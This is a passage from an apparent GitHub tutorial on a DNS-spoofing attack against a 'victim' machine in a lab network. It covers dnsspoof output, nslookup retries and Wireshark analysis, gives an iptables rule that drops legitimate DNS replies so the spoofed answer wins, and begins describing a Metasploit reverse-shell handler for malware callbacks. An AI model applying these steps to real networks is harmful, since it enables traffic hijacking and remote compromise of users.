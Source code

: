 But there are possibilities the attack will fail and let's discuss how to overcome it
and bypass failures.

No matter the failures if your virtual machine is on the same network with **bridged** functionality and no **NAT** the they
will successfully send the request to the attacker machine like the following:

```
DNS spoof: listening on eth0 [udp dst port 53 and not src 192.168.1.105]
192.168.1.106.49792 > 192.168.1.105.53:  2+ PTR? 1.0.0.10.in-addr.arpa
```

Here we observe that the victim 192.168.1.106 sent a request to the attacker and received
a response from the attacker machine 192.168.1.105. Let's observe better what happened
with the best sniffer wireshark.

From the following wireshark snapshot we can observe that we sent correctly
from 192.168.1.106 the fake IP to search and then we received from attacker
192.168.1.105 the fake dnspoof packet with a fake domain so the process is made success.

![Wireshark1](https://github.com/PanagiotisDrakatos/RArAtikTdkA/tree/main/images/wireshark1.png)

There are possibilities that the nslookup will be buggy and his legitimate response may be faster than
the fake spoofed packet and return response that the domain not existing. For that reason, we can
use the options ```timeout``` and ```retry``` like below:

```nslookup -timeout=4 -retry=2 10.0.0.0 192.168.1.105```

Finally, there is a last possibility that even with timeout and retry options we are
getting a fail response.
```*** UnKnown can't find 10.0.0.0: Non-existent domain```

The culprit in that case is that we maybe receive firstly the valid and legitimate DNS packets from
the correct DNS resolution and secondly, the spoofed DNS packets, thus the lookup will be failed.
Dnsspoof can't modify DNS packet, it can only send another prepared packet with spoofed
address. But the real packet comes to victim as first and victim's computer take into
consideration only the first not latter. Let's dive into an example to see how to overcome
it.

Assuming DNS host file is spoofhosts.txt is this:
``173.252.74.22  google.co.in``

Let's take look at this wireshark snapshot:

![Wireshark2](https://github.com/PanagiotisDrakatos/RArAtikTdkA/tree/main/images/wireshark2.png)

We have observed in Wireshark at the victim system. It gives us the spoofed information
correctly which is the third line where you can see the correct 173.252.74.22 address but
see in the second line that we are getting the response directly from the router with a
valid Google IP. Hence, we have observed that the DNS response is coming from the router
faster than us and thus the spoofed lookup failed even we observe it as received in wirehsark.

In order to overcome it the solution is to use a firewall like iptables to specifically
block the real packet. I made this using iptables with specific addresses in hex:(You only
need to replace the hex sting with your victim hex address).

```sudo iptables --append FORWARD --match string --algo kmp --hex-string '|c0 a8 01 6d|' --jump DROP```

*Attention!!! if you are using a firewall like ```ufw``` and ```iptables``` make sure you
open the required ports ```udp 53``` from dnspoof and the ```<kali linux IP>``` for shell code else the attack will fail

### Setup the Metasploit Handler

First you may be asking, what is a handler? A reverse shell (also known as a connect-back)
is a listener on your local Kali Linux box that your malware calls back to. This requires
```
